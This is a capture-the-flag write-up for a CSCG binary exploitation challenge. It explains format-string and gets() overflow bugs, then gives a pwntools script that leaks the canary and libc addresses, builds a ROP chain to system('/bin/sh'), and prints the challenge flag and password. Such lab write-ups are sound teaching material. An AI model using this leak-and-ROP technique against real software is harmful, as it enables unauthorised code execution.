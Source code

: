 # Intro to Pwning 3

For this challenge we are provided with an ELF binary `pwn2` and its source code `pwn2.c`. The binary has all mitigations enabled: full RELRO, stack canaries, NX and PIE. Analyzing the source code, we spot two bugs:

- In `welcome()`: stack smashing via `gets`

- In `welcome()`: user-controlled format string via `printf`

- In `AAAAAAAA()`: stack smashing via `gets`

Using the format string bug, we leak the address of the binary, the stack-canary and the address of libc off the stack. Then we smash the stack in `AAAAAAAA()` to overwrite its return address and execute a ROP chain. The ROP chain sets up the arguments for `system()` using the addresses we leaked and then returns to `system()`, spawning us a shell.

Flag: `CSCG{VOLDEMORT_DID_NOTHING_WRONG}`

Exploit code:

```python
from pwn import *

# connect
b = ELF("pwn3")
libc = ELF("libc.so.6")
context.binary = b
r = remote("hax1.allesctf.net", 9102)

# send password
r.sendlineafter("stage 2", "CSCG{NOW_GET_VOLDEMORT}")
r.recvuntil("witch name:")

# leak binary address, canary and libc address
r.sendline("%39$p %41$p %45$p")
leak = r.recvuntil("magic spell:")
canary, leak, leak_libc = leak.splitlines()[-1].split()[:3]
canary = int(canary, 0)
leak = int(leak, 0)
libc.address = int(leak_libc, 0) - 0x271E3
b.address = leak - 0xD7E
info("binary @ 0x%x", b.address)
info("canary: 0x%x", canary)
info("libc @ 0x%x", libc.address)

# gadgets used by rop chain
gadget_pop_rdi = b.address + 0xDF3
addr_binsh = next(libc.search("/bin/sh\0"))

# rop to system
r.sendline(
    "Expelliarmus".ljust(0x108, "\0")
    + flat(canary, 0, gadget_pop_rdi + 1, gadget_pop_rdi, addr_binsh, libc.symbols.system)
)
r.interactive()
```
